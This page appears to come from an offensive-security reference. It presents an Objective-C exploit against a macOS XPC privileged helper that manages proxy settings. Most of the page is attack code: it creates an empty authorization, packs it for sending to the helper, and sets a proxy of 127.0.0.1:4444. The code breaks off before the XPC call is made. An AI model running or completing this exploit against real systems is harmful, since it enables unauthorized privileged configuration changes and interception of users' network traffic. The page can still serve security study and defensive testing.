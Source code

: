 ### Exploit Example

In this example is created:

* The definition of the protocol with the functions
* An empty auth to use to to ask for access
* A connection to the XPC service
* A call to the function if the connection was successful

```objectivec
// gcc -framework Foundation -framework Security expl.m -o expl

#import <Foundation/Foundation.h>
#import <Security/Security.h>

// Define a unique service name for the XPC helper
static NSString* XPCServiceName = @"com.example.XPCHelper";

// Define the protocol for the helper tool
@protocol XPCHelperProtocol
- (void)applyProxyConfigWithAuthorization:(NSData *)authData settings:(NSDictionary *)settings reply:(void (^)(NSError *))callback;
- (void)resetProxyConfigWithAuthorization:(NSData *)authData restoreDefault:(BOOL)shouldRestore reply:(void (^)(NSError *))callback;
- (void)legacyConfigureProxyWithAuthorization:(NSData *)authData enabled:(BOOL)isEnabled host:(NSString *)hostAddress port:(NSString *)portNumber reply:(void (^)(NSError *, BOOL))callback;
- (void)fetchVersionWithReply:(void (^)(NSString *))callback;
- (void)establishConnectionWithReply:(void (^)(NSXPCListenerEndpoint *))callback;
@end

int main(void) {
    NSData *authData;
    OSStatus status;
    AuthorizationExternalForm authForm;
    AuthorizationRef authReference = {0};
    NSString *proxyAddress = @"127.0.0.1";
    NSString *proxyPort = @"4444";
    Boolean isProxyEnabled = true;
     
    // Create an empty authorization reference
    status = AuthorizationCreate(NULL, kAuthorizationEmptyEnvironment, kAuthorizationFlagDefaults, &authReference);
    const char* errorMsg = CFStringGetCStringPtr(SecCopyErrorMessageString(status, nil), kCFStringEncodingMacRoman);
    NSLog(@"OSStatus: %s", errorMsg);
    
    // Convert the authorization reference to an external form
    if (status == errAuthorizationSuccess) {
        status = AuthorizationMakeExternalForm(authReference, &authForm);
        errorMsg = CFStringGetCStringPtr(SecCopyErrorMessageString(status, nil), kCFStringEncodingMacRoman);
        NSLog(@"OSStatus: %s", errorMsg);
    }
    
    // Convert the external form to NSData for transmission
    if (status == errAuthorizationSuccess) {
        authData = [[NSData alloc] initWithBytes:&authForm length:sizeof(authForm)];
        errorMsg = CFStringGetCStringPtr(SecCopyErrorMessageString(status, nil), kCFStringEncodingMacRoman);
        NSLog(@"OSStatus: %s", errorMsg);
    }
    
    // Ensure the authorization was successful
    assert(status == errAuthorizationSuccess);
```